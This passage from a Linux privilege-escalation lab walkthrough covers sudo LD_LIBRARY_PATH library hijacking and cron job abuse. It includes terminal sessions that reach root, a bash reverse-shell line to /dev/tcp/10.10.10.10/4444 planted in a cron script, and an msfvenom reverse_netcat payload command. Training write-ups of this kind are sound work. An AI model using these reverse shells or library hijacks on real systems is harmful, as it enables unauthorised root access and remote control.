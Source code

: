 Running `sudo LD_LIBRARY_PATH=/tmp apache2` now grants root access.

**Practical**

Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re run.

```
user@debian:~$ mv /tmp/libcrypt.so.1 /tmp/libpcre.so.3
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: symbol lookup error: apache2: undefined symbol: pcre_free
user@debian:~$ echo "void pcre_free(){}" >> /home/user/tools/sudo/library_path.c 
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: symbol lookup error: apache2: undefined symbol: pcre_free
user@debian:~$ gcc -o /tmp/libpcre.so.3 -shared -fPIC /home/user/tools/sudo/library_path.c
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
root@debian:/home/user# 
```


Basically another line needed to be added so that the compiler is satisfied. The exploit runs and we have root access.

## Cron Jobs - File Permissions

Cron jobs are programs or scripts that users schedule to run at specific times or intervals. Cron table files store the configuration for cron jobs. The system-wide crontab is located at `/etc/crontab`.

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

**Practical**

"Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

```shell
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1`
```
Set up a netcat listener on your own machine and wait for it to connect."

---

I'm not a fan of just stealing code in order to complete this task so instead I will generate a payload with msfvenom - `msfvenom -p cmd/unix/reverse_netcat LHOST=10.11.32.89 LPORT=4444` - this will allow me to replace the file with this in order to get the reverse shell sent back to my listener.

When the reverse shell is sent back it is a root shell as expected.

## Cron Jobs - PATH Environment Variable

View the contents of the system-wide crontab: `cat /etc/crontab`

Note that the path variable begins with `/home/user`.

Create a file called `overwrite.sh` that contains the following contents 
